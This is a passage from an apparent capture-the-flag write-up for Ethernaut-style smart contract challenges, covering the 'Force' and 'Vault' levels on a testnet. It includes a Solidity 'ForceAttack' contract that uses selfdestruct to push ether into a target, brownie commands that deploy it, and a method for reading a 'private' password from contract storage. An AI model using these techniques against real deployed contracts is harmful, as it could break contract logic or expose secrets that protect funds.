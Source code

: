 ```js

await contract.owner()
'0x355705B24b94414d7A8fCD3A7A7e2849EE9029Ce'
```

### 7. Force
Force send ether to the contract

- In challenge number 1 Fallback, we notice that a contract receiving Ether must have at least one of the functions below

```solidity
receive() external payable
fallback() external payable
```

- there is other way
  - write a new contract
  - deposit eth to it 
  - call `selfdestruct(challenge_address)`
  - that will forcefully send all that contract's eth to `challenge_address`

**Solution**
- `ForceAttack` contract

  ```solidity
  pragma solidity ^0.6.0;

  contract ForceAttack {
      constructor() public payable {}
      function attack(address payable _contractAddr) public {
          selfdestruct(_contractAddr);
      }
  }
  ```

- `brownie console  --network rinkeby`

```bash
>>> challenge_address = '...'

>>> attackContract = ForceAttack.deploy({'from': hacking_account, 'value': 1234})

>>> attackContract.attack(challenge_address, {'from':hacking_account})
```

### 8. Vault
- even private data can is assessible `bytes32 private password`
- in 'Vault' contract, variable `locked - bool type` takes the first slot because `password - bytes32` take the whole 256 slot at second place

**Solution**
- just need to query storage at index 2 to get password in bytes32 type
- `brownie console  --network rinkeby`
